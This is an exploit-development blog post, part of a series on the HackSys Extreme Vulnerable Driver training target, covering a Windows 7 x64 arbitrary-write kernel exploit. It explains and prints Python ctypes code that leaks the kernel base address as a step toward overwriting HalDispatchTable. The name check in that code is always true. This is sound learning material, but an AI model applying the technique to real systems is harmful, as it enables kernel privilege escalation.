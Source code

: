 ```yaml
---
layout: single
title: HEVD Exploits -- Windows 7 x64 Arbitrary Write
date: 2020-02-01
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Exploit Dev
  - Drivers
  - Windows
  - x86
  - x86-64
  - Shellcoding
  - Kernel Exploitation
  - Write What Where
  - Arbitrary Overwrite
---
```


## Introduction
Continuing on with the Windows exploit journey, it's time to start exploiting kernel-mode drivers and learning about writing exploits for ring 0. As I did with my OSCE prep, I'm mainly blogging my progress as a way for me to reinforce concepts and keep meticulous notes I can reference later on. I can't tell you how many times I've used my own blog as a reference for something I learned 3 months ago and had totally forgotten. 

This series will be me attempting to run through every exploit on the [Hacksys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver). **I will be using HEVD 2.0**. I can't even begin to explain how amazing a training tool like this is for those of us just starting out. There are a ton of good blog posts out there walking through various HEVD exploits. I recommend you read them all! I referenced them heavily as I tried to complete these exploits. Almost nothing I do or say in this blog will be new or my own thoughts/ideas/techniques. There were instances where I diverged from any strategies I saw employed in the blogposts out of necessity or me trying to do my own thing to learn more.

**This series will be light on tangential information such as:**
+ how drivers work, the different types, communication between userland, the kernel, and drivers, etc
+ how to install HEVD,
+ how to set up a lab environment
+ shellcode analysis

The reason for this is simple, the other blog posts do a much better job detailing this information than I could ever hope to. It feels silly writing this blog series in the first place knowing that there are far superior posts out there; I will not make it even more silly by shoddily explaining these things at a high-level in poorer fashion than those aforementioned posts. Those authors have way more experience than I do and far superior knowledge, I will let them do the explaining. :)

This post/series will instead focus on my experience trying to craft the actual exploits. 

I used the following blogs as references:
+ All of the blog posts referenced in the [previous post](https://github.com/h0mbre/h0mbre.github.io/blob/master/_posts/2020-01-21-HEVD_Stackoverflow_64bit.md),
+ FuzzySecurity's [tutorial on this very exploit](https://www.fuzzysecurity.com/tutorials/expDev/15.html),
+ GradiusX [exploit code for a similar exploit](https://github.com/GradiusX/HEVD-Python-Solutions/blob/master/Win10%20x64%20v1607/HEVD_arbitraryoverwrite.py),
+ Abatchy's [post on the subject](https://www.abatchy.com/2018/01/kernel-exploitation-7),
+ jNizM [documentation for the SystemInformationModule returned structures](https://gist.github.com/jNizM/ddf02494cd78e743eed776ce6164758f). 

Huge thanks to the blog authors, no way I could've finished these first two exploits without your help/wisdom. 

## Goal
For this post, I mostly relied on the GradiusX code mentioned above. They're doing a different technique in their code (hopefully we'll try it at some point) but the way they deal with the `SystemModuleInformation` struct in Python was very crucial to how I ended up doing it in this post. As you may remember from the x86 version of this post, the goal of this post was to create a much more organized exploit code that utilized classes instead of treating the aforementioned struct as a long string. We were succesful in that. The only thing that really bugged me about this exploit was there was behavior where during my exploit, the first two bytes of my shellcode buffer would be overwritten. Besides the BSODs, this was frustrating mostly because I never really root caused the issue. The issue may in fact lie in the way I decided to allocate my userland string buffers in Python, but time will tell. Ultimately, I was able to overcome the overwrites and develop a reliable exploit.

This exploit code will be very similar to the last post, so please read that one if you haven't. There's honestly not much difference. We'll only be talking about the differences and the shellcode overwrite issue and how I solved it. 

## Exploit Code Considerations for x64
In this section, I'll be detailing aspects of the exploit code that differ from its x86 counterpart. 

As you may recall from the first post, we need to get the kernel image name and base address so that we can use the address to calculate the location of the `HalDispatchTable` because we need to overwrite a function pointer there. A lot of this code will look the same, here is the entire function: 
```python
def base():
    
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation")
    sys_info = create_string_buffer(0)
    sys_info_len = c_ulong(0)

    ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    sys_info = create_string_buffer(sys_info_len.value)

    result = ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    if result == 0x0:
        print("[*] Success, allocated {}-byte result buffer".format(str(len(sys_info))))

    else:
        print("[!] NtQuerySystemInformation failed with NTSTATUS: {}".format(hex(result)))

    class SYSTEM_MODULE_INFORMATION(Structure):
        _fields_ = [("Reserved", c_void_p * 2),
                    ("ImageBase", c_void_p),
                    ("ImageSize", c_long),
                    ("Flags", c_ulong),
                    ("LoadOrderIndex", c_ushort),
                    ("InitOrderIndex", c_ushort),
                    ("LoadCount", c_ushort),
                    ("ModuleNameOffset", c_ushort),
                    ("ImageName", c_char * 256)]

    # thanks GradiusX
    handle_num = c_ulong(0)
    handle_num_str = create_string_buffer(sys_info.raw[:8])
    memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))
    
    sys_info = create_string_buffer(sys_info.raw[8:])

    counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)
```

The primary difference here is going to be establishing a class for the `SYSTEM_MODULE_INFORMATION` structure. Its very similar to GradiusX's class in their exploit script; however, I changed the name of the last member so that it was more congruent with the FuzzySec's Powershell script. For more information about this struct, please see the [documenation I referenced throughout this bug class exploitation process](https://gist.github.com/jNizM/ddf02494cd78e743eed776ce6164758f).

Let me break this down piece by piece. We declare a class that matches exactly with the aforementioned documentation that I referenced. We then create a `handle_num` variable of type `c_ulong()` which will be 8 bytes on x64 Windows. We create a string buffer and fill it with the first 8 bytes of our returned `sys_info` struct. We then move this buffer to the address of our `handle_num` variable which allows us to get the value in decimal of the number of `SystemModuleInformation` objects we returned with our `NtQuerySystemInformation` API call. You can see this here: 
```python
handle_num = c_ulong(0)
handle_num_str = create_string_buffer(sys_info.raw[:8])
memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))
```

We then shorten the returned `sys_info` string by cutting off the first 8 bytes we just used and then interating through the string casting each `296` byte chunk as an instance of our class. You can see that we declare a `counter` variable which will increment each iteration by the size of our class (`296` bytes). The loop does the following:
+ While we haven't iterated through all of our returned modules (by getting the number of returned modules with `handle_num.value`),
+ create a temporary `SYSTEM_MODULE_INFORMATION` instance called `tmp`,
+ create a string buffer in a `0` to `296` byte chunk that contains one complete returned struct,
+ move that string buffer into our temporary `tmp` struct.
You can see all of this happening here: 
```python
counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)
```

